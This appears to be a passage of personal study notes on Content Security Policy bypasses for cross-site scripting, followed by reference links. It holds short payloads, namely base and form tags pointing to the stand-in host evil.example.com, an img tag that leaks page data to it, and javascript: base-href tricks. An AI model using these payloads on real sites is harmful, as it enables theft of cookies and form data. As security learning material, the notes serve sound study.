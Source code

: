 + `base-uri` is not set:
     <base href="https://evil.example.com">
 - Once hijacked, relative URLs are vulnerable
 - I just make my evil.example.com have the same `href`/`forms`

+ `form-action` - specifies where forms can submit their data
   If it's not set:
     <form action=https://evil.example.com>
       <!--inputs-->
     </forms>

+ `script-src` that allow XSS:
 - `script-src 'unsafe-inline'`
 - `script-src http`
 - `script-src https`
 - `script-src *`

+ `img-src` - FIREFOX SPECIFIC
 - Stealing With Images
 - Only _works if image is above the html content_
 - Can transport sensitive info like cookies over using JS
   `<img src='https://evil.example.com?`
 - If you look at the _nework tab_ in the _developer tools_ the html from the webpage can be send

## [Bypassing] (6) - JS Fuck
[Link]: http://www.jsfuck.com/
+ Javascript only using: `[]()!` -  may be some other

## [Bypassing] (7) - JSONP
* CORS Attack
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70

## [Bypassing] (8) - Regex
+ Break out of _regex context_ with the `/`
+ `*-` after the forward slash is ok and won't throw an error so long as 
+ Parantheses `()` 

## [Bypassing] (9) - Regex Bypass for Safari
1. Use regex format in _Safari_
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
```Regex_Format
<base href="javascript:/a/-alert(1)/">
                            ^this gets executed
<a href="test.html">click</a>
```

 +  Adding `//////` to bypass potential combining of `base` and `href`
```//////
                                    v----these will combine with `../` below
<base href="javascript:/a/-alert(1)/////////">                    |
                                                                  |
<a href="../../../lol/test.html">click</a>                        |
         ^--------------------------------------------------------+
```


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP